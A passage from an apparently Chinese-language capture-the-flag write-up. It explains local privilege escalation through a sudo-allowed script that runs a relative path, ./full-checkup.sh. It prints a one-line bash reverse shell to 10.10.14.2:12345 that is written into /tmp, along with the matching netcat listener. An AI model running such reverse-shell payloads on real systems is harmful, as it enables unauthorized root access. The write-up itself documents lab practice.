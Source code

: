 ### Payload
`echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.2/12345 0>&1' > /tmp/full-checkup.sh`
![image](https://hackmd.io/_uploads/ryM9vrNmge.png)
`nc -lvnp 12345`
![image](https://hackmd.io/_uploads/SyGq8HV7el.png)



### 成功 Pwn 掉了
這是一個典型的 sudo 權限濫用 + 相對路徑執行造成的本地提權漏洞：
>由於 system-checkup.py 允許 svc 以 root 執行，且其中的 full-checkup 選項執行的是相對路徑 ./full-checkup.sh，攻擊者可以在可寫目錄（如 /tmp）放置同名惡意腳本，成功以 root 執行任意指令並獲得提權。
![image](https://hackmd.io/_uploads/S1yLIHVXgg.png)

